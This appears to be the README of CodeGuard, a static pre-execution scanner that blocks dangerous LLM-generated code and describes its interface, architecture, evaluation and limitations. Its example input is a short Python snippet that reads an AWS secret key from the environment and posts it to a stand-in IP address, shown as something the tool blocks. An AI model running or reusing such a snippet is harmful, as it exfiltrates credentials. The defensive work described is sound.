

<h1 align="center">CodeGuard</h1>

<p align="center">
  <b>A real-time, pre-execution safety layer for LLM-generated code.</b><br>
  Decides <code>allow</code> / <code>block</code> before code runs, in a few milliseconds, on CPU, with no LLM.<br>
  Nothing is ever executed by the analyser.
</p>

<p align="center">
  
  
  
  
  
</p>

<p align="center">
  <a href="#quick-start">Quick start</a> ·
  <a href="#example">Example</a> ·
  <a href="#interface">Interface</a> ·
  <a href="#results">Results</a> ·
  <a href="#architecture">Architecture</a> ·
  <a href="#limitations">Limitations</a>
</p>

---

**Languages:** Python · bash · JavaScript/TypeScript · SQL · YAML · Markdown (plus a generic fallback for PHP, Go, Ruby, PowerShell, Java, C# and others). Every verdict comes with a plain-English explanation.

> Code is *read* and interpreted against an abstract model; dangerous calls only record what they would do. The only code that really runs is the harmless safe/unsafe demo pair in `demo/`.

## Contents

- [Example](#example)
- [Quick start](#quick-start)
- [Scan a whole file of snippets](#scan-a-whole-file-of-snippets)
- [Interface](#interface)
- [Results](#results)
- [Architecture](#architecture)
- [Category mapping](#category-mapping)
- [Test data](#test-data)
- [Interception proof](#interception-proof)
- [Optional trained models](#optional-trained-models)
- [Label style](#label-style-codeguard_labels)
- [Components and licences](#components-and-licences)
- [Limitations](#limitations)

## Example

Input:

```python
import os, requests
key = os.environ["AWS_SECRET_ACCESS_KEY"]
requests.post("http://203.0.113.9/c", data={"k": key})
```

Output (illustrative; run it yourself for the exact values):

```json
{
  "verdict": "block",
  "risk_score": 0.97,
  "categories": ["secret_access", "data_exfiltration"],
  "code_language": "python",
  "reason": "Reads a cloud secret from the environment and sends it to an external host.",
  "vulnerable_lines": [2, 3]
}
```

## Quick start

**Install and run**

```bash
pip install -r requirements.txt
python -m codeguard serve --port 8000          # http://localhost:8000  (UI at /)
```

**Try it**

```bash
curl -s localhost:8000/scan -H 'content-type: application/json' -d '{"code": "print(1)"}'
python demo/intercept_check.py                 # interception proof (marker file appears / never appears)
```

**Verify**

```bash
python eval/run_eval.py data/dev.jsonl         # evaluation on the public dev sample
python tests/run_cases.py && python tests/test_robustness.py
```

## Scan a whole file of snippets

```bash
python -m codeguard batch snippets.jsonl            # -> snippets_results.jsonl  (one result per snippet, same order)
python -m codeguard batch snippets.json --array     # -> one JSON array
python -m codeguard batch snippets.csv -o out.jsonl # CSV with a "code" column
python -m codeguard batch some_script.py            # a single code file counts as one snippet
python -m codeguard batch my_folder/                # every file in the folder is one snippet
```

- **Input:** `{"code": "..."}` per line. Extra fields like id/language/label are ignored; `--keep-id` copies an id into the output.
- **Output:** exactly the six schema fields per snippet.
- **Browser UI** (`/`): has a file-upload box that returns a downloadable `.jsonl`.

## Interface

`POST /scan` with `{"code": "..."}` returns:

| Field | Type | Meaning |
|---|---|---|
| `verdict` | `"allow"` \| `"block"` | Final decision |
| `risk_score` | float | Ranking score, not a calibrated probability |
| `categories` | list of strings | Behaviour categories triggered (fixed set of nine) |
| `code_language` | string | Detected language |
| `reason` | string | Plain-English explanation |
| `vulnerable_lines` | list of ints | Lines responsible for the verdict |

```json
{"verdict": "allow|block", "risk_score": 0.97, "categories": ["secret_access", "data_exfiltration"],
 "code_language": "python", "reason": "plain-English explanation", "vulnerable_lines": [8, 17]}
```

| Endpoint | Purpose |
|---|---|
| `POST /scan` | Scan one snippet |
| `POST /batch` | Takes a list of `{"code": ..., "id"?: ...}` (or `{"items": [...]}`), returns per-sample objects in order |
| `GET /health`, `GET /metrics` | Service status and metrics |
| `POST /admin/reload` | Hot-reload the YAML rules |
| `?verbose=1` (any scan) | Adds an `explanation` object (evidence, per-category scores, timings) |

**Library:** `from codeguard import scan` · **CLI:** `python -m codeguard scan file.py`

The endpoint never returns a non-schema body; on an internal failure it fails closed (block) with a valid body.

## Results

Public dev sample (42 rows), plus honest generalisation numbers. The dev sample guided development, so the hidden-set score will differ.

| Evaluation | Result |
|---|---|
| Public dev sample (42 rows) | Precision 1.00, recall 1.00, 0 false positives, category exact-match 1.00, language accuracy 1.00 |
| Latency (warm) | ~2 ms median, 7 ms p95 per snippet (`reports/dev_report.json`, `docs/efficiency.md`) |
| Fresh blind files (predictions saved before expected outputs were read) | 94-97% verdict accuracy, 75-85% exact category sets |
| Independent public corpus (`mevichitra/codeguard`, Apache-2.0, scan-only) | 42/46 must-flag caught, 40/43 must-allow allowed |
| Real library code blocked | 8.2% stdlib (400 modules), 7.2% third-party (250 modules), mostly genuine dual-use code |
| Metamorphic rewrites (`tests/test_metamorphic.py`) | 1,016 rewrites, 0 changes in verdict or categories |

Extra checks: benign look-alike fixtures (`tests/cases_benign.py`), robustness inputs (`tests/test_robustness.py`), rename/noise stability on dev (`eval/robustness.py`). `workflow.md` has the run-book, the checklist and the judge presentation.

<details>
<summary><b>What the metamorphic check does</b></summary>

Every Python fixture and dev row is rewritten in ways that keep its behaviour: rename everything, add noise, move statements into a function behind a `__main__` guard, wrap in try/except, alias imports, hoist arguments into temporary variables. The verdict and categories must not change; a detector that memorised text would fail this.

</details>

## Architecture



| Component | What it does |
|---|---|
| **Front-ends** | Lower each language to common *behaviour events* (read file, send over network, delete, run shell, eval, install package, spawn, loop, SQL statement ...). Python and JavaScript share one abstract interpreter (JavaScript is parsed to a Python AST by our own parser). Bash, SQL, YAML and Markdown have their own parsers. |
| **Abstract interpretation** | Not grep. Constants are folded (concatenation, base64/hex decoding, f-strings); values carry provenance labels (user input, environment, secrets, file data, network data ...); calls are followed through helpers, aliases and dynamic imports. Safety proofs (parameterised SQL, quoting, validation guards, bounded loops) remove false positives. |
| **Counterfactual probing** | For SQL/shell strings built from input, hostile values are substituted and the resulting *structure* is compared. A change is a proven injection and gives the witness shown in the reason. |
| **Path confinement** | A path built from a fixed folder plus caller input gets a `TRAVERSAL` label (through `join`, `+`, f-strings, `pathlib`). `basename`/`secure_filename` or a `realpath(...).startswith(base)` guard clears it. File data read from a caller-chosen path is `ARBITRARY_FILE`; sending it to a caller-chosen host is exfiltration whatever the protocol. |
| **Disabled verification** | Keyed on the meaning of a parameter (`verify`, `verify_signature`, `check_hostname`, `algorithms=['none']`). Token checks map to `persistence_or_privesc`; expiry-only and TLS-only are weaker. |
| **Whole-file input** | `codeguard/snippets.py` splits concatenated `{"code": ...}` objects, JSON/JSONL/CSV, PDF text and plain text into snippets; each gets its own verdict. |
| **Rule engine** | `rules/*.rules.yaml`: 182 rules, hot-reloadable via `POST /admin/reload`. They match events by capability, labels, flags, host/path classes and multiplicity, and carry the plain-English templates. Weights are noisy-OR combined per category. |
| **Knowledge** | Host classifier (metadata, link-local, private, numeric/hex/octal IP forms, drop sites); path classifier (credential stores, persistence surfaces, system dirs); typosquat engine (edit distance, transposition, homoglyphs against `rules/pkg_*.txt`); secret-format and entropy detector; AI-instruction scorer (addressee x directive x object, role tokens, hidden unicode, negation-aware). |
| **ML layer** | Byte-level 5-gram *naturalness* language model (1.1 MB, numpy, trained on the Python standard library with 400 files held out, benign data only). Scores how unlike ordinary code a long literal looks; a packed/encoded blob next to code that can execute it adds evidence for `obfuscated_execution`. **It cannot block on its own.** Retrain with `python -m codeguard.ml.train`. |
| **Interception** | `codeguard/intercept.py`: `@guarded`, `guarded_exec`, `guarded_run`, `guard()`. Synchronous, fail-closed; the exact scanned bytes are the executed bytes. |

<details>
<summary><b>ML layer: held-out numbers</b></summary>

AUC 0.998 vs 0.66 for plain entropy on base64/hex/zlib/rot13/reversed text. Deployed detector recall 99.97% on 8,904 encoded blobs with 0 false alarms on benign blob-shaped literals (`reports/lm_eval.json`).

</details>

## Category mapping

The response format fixes nine categories, so SQL injection has no category of its own. It follows the dataset's convention:

| Behaviour | Category |
|---|---|
| Injection into a `SELECT` | `data_exfiltration` (rows can be read out) |
| Injection into `DELETE` / `UPDATE` | `destructive_command` |
| Tainted string reaching a shell or `eval` | `destructive_command` |

The mapping lives in the rules (`rules/exfil.rules.yaml`, `rules/destructive.rules.yaml`) and can be flipped in one place.

## Test data

The organiser's public dev sample (`codeguard_dev.jsonl`) and several blind-test files are **not committed**: they contain placeholder credentials (fake Slack/API tokens) that GitHub's secret scanning treats as real.

- Put the organiser's file at `./codeguard_dev.jsonl` (and a copy at `data/dev.jsonl`) to run `python eval/run_eval.py codeguard_dev.jsonl`.
- The evaluation scripts skip any test file that is missing.
- `python tests/run_cases.py` (170 cases) needs no external data.

## Interception proof

`python demo/intercept_check.py` does three things:

1. Scans and runs the **safe** snippet: marker `ALLOWED.marker` appears.
2. Scans the **unsafe** snippet: blocked, `BLOCKED_SHOULD_NOT_EXIST.marker` never appears.
3. Shows a `@guarded` function whose body is never entered.

Organiser-provided pairs can be supplied with `--safe` / `--unsafe` (`.py` or `.sh`).

## Optional trained models

| Model | Default | Result | Verdict |
|---|---|---|---|
| `models/text_lr.npz`: instruction-text classifier for `ai_targeted_instructions` | **On** | Leave-one-attack-family-out recall 0.74; 5-fold accuracy 0.92 / precision 0.99 / recall 0.87; ~0% false positives on 7,000 held-out real comments | Shipped. A public chat-style injection set (deepset, Apache-2.0) was tried and rejected: it did not transfer to code comments. |
| Hashed n-gram code classifier (`eval/code_lr_eval.py`), trained on `expanded_dataset.jsonl` (52 template families) plus 6,675 real benign functions | Not shipped | Alone recalls 20-33% of independent attacks; gives 0.01 probability to the two snippets the engine missed when fresh | Not shipped |
| `models/codeguard_model.onnx`: MiniLM-L6 fine-tuned on `expanded_dataset.jsonl` (train families), our cases and real benign code | **Off** | Held-out families: accuracy 0.81, precision 1.0, recall 0.80 (n=16). Finds none of the 25 positives on organiser dev rows (the training file's 52 templates are too narrow). | Union with the engine never adds a false positive (601 unseen benign functions) but adds nothing on dev, sem32 or held-out families. Needs more diverse labelled data. |

<details>
<summary><b>ONNX model: latency and files</b></summary>

Files: `train_and_export.py`, `onnx_engine.py`, `codeguard/union.py`. Latency: 12.5 ms (fp32) / 7.5 ms (int8, less accurate) for the model alone, about 24 ms for the union.

</details>

## Label style: `CODEGUARD_LABELS`

Some behaviours touch two categories (read a credential *and* send it; send data to a private address; a decoded payload that deletes files). The organiser's dev rows label such single-behaviour chains with the one category that names the behaviour.

| Setting | Behaviour | Matches |
|---|---|---|
| `primary` | Reports only the category that names the behaviour | The dev rows exactly |
| `inclusive` (**default**) | Reports every category the behaviour touches | Better fit for multi-label precision/recall scoring |

The dev rows pass 42/42 under both styles. Two hand-made test files (`tests/data/user_test50.jsonl`, `tests/data/user_test50_v2.jsonl`) label identical patterns in opposite styles; each is matched exactly by one style (50/50 category sets).

Score any labelled file with `python eval/score_file.py <file>`, or for full expected outputs `python eval/score_full.py <file>`.

## Components and licences

<details>
<summary><b>Show components, ideas and licences</b></summary>

- **Dependencies:** Python standard library (PSF; also the training text for the language model), NumPy (BSD-3), PyYAML (MIT), FastAPI / Starlette / uvicorn / pydantic (MIT/BSD).
- **No pretrained model is used by default** (the optional MiniLM classifier above is off), no external ruleset, no scanner binary, no network access and no LLM/API at inference time.
- **Written for this project:** all parsers (bash, JavaScript, SQL, Markdown), the rules, the package lists and the scoring logic.
- **Ideas (not code) inspired by:** Bandit/Semgrep/CodeQL (source-sink-sanitizer), gitleaks/detect-secrets (credential formats), ShellCheck, YARA, GuardDog, and the MITRE ATT&CK / ATLAS / CWE taxonomies (tags).

See `THIRD_PARTY.md`.

</details>

## Limitations

**Analysis coverage**

- Static/abstract analysis: heavily obfuscated code using unknown libraries or runtime-only data can evade it; unknown callables propagate taint but are not judged.
- JavaScript support covers a practical ES2020 subset; unusual syntax falls back to the generic analyser.
- Languages without a full front-end (PHP, Go, Ruby, PowerShell, Java, C#) use a capability-based generic analyser. It covers the common sources and sinks (`tests/cases_polyglot.py`) but is coarser than the Python, bash, JavaScript and SQL analysers.

**Data and scale**

- Very long input (over 200,000 characters) is analysed as its first 150,000 plus its last 50,000 characters; line numbers for such input are approximate.
- Package-name knowledge: the 15,000 most downloaded PyPI projects (typosquat targets: the top 3,000) plus a small npm list. Rarely-used real package names that sit one edit from a popular one can be flagged (1.7% of unseen real names), and npm coverage is much thinner than PyPI.
- False positives on real library code are about 7-8% (dynamic import, eval and deserialisation in framework code).

**Scoring and labels**

- Scores are a ranking, not calibrated probabilities.
- Category labels for behaviours that touch two categories follow an "inclusive" default; the organiser's own labels may be narrower (see [Label style](#label-style-codeguard_labels)).
- The ML layer is deliberately narrow: an unsupervised obfuscation signal. There is no supervised attack classifier because we have only 42 labelled rows and will not fabricate attack corpora; a model we could not validate honestly would only add risk.

---

*AI-assistant disclosure: this project was written with Claude Code (an AI coding assistant) under the team's direction.*